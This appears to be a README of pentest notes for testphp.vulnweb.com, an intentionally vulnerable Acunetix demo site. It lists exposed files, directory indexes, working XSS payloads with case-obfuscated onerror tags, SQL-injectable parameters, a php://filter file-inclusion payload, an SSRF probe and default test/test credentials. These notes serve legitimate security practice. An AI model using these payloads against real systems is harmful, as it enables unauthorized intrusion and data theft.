 # Testphp_vulns
Collect all vulns and infomations in http://testphp.vulnweb.com/

## Sensitive Files

    http://testphp.vulnweb.com/index.zip
    http://testphp.vulnweb.com/.idea/workspace.xml
    http://testphp.vulnweb.com/admin/
    http://testphp.vulnweb.com/Mod_Rewrite_Shop/.htaccess
    http://testphp.vulnweb.com/crossdomain.xml
    http://testphp.vulnweb.com/CVS/Root
    http://testphp.vulnweb.com/secured/phpinfo.php
    http://testphp.vulnweb.com/_mmServerScripts/mysql.php
    

## Directory Index

    http://testphp.vulnweb.com/Flash/
    http://testphp.vulnweb.com/CVS/
    http://testphp.vulnweb.com/.idea/
  
## Infomation disclosure
  
    wvs@acunetix.com
    test@gmail.com
    http://127.0.0.1
    wasp@acunetix.com
  
## XSS
  
    POST http://testphp.vulnweb.com/search.php 'searchFor'
    POST http://testphp.vulnweb.com/guestbook.php 'name'
    POST http://testphp.vulnweb.com/secured/newuser.php 'uuname'
    
    GET http://testphp.vulnweb.com/listproducts.php?cat=<IMG sRC=X onerror=jaVaScRipT:alert`xss`>
    GET http://testphp.vulnweb.com/listproducts.php?artist=<IMG sRC=X onerror=jaVaScRipT:alert`xss`>
    GET http://testphp.vulnweb.com/hpp/?pp=%22%3E%3CIMG%20sRC=X%20onerror=jaVaScRipT:alert`xss`%3E
    GET http://testphp.vulnweb.com/hpp/params.php?p=<IMG sRC=X onerror=jaVaScRipT:alert`xss`>
    
## SQL Inject

    POST http://testphp.vulnweb.com/secured/newuser.php 'uuname' error SQLi vulnerable
    POST http://testphp.vulnweb.com/userinfo.php 'uname' blind SQLi vulnerable
    GET http://testphp.vulnweb.com/artists.php 'artist' error SQLi vulnerable
    GET http://testphp.vulnweb.com/listproducts.php 'cat' error SQLi vulnerable
    GET http://testphp.vulnweb.com/listproducts.php 'artist' error SQLi vulnerable
    GET http://testphp.vulnweb.com/product.php 'pic' error SQLi vulnerable
    
    GET http://testphp.vulnweb.com/Mod_Rewrite_Shop/details.php 'id' SQLi vulnerable
    GET http://testphp.vulnweb.com/AJAX/infocateg.php 'id' SQLi vulnerable
    
## File Include

    http://testphp.vulnweb.com/showimage.php?file=showimage.php
    http://testphp.vulnweb.com/showimage.php?file=php://filter/convert.base64-encode/resource=showimage.php
    
## SSRF

    http://testphp.vulnweb.com/showimage.php?file=http://127.0.0.1:22

## CLRF

## Weak Pass

    test/test
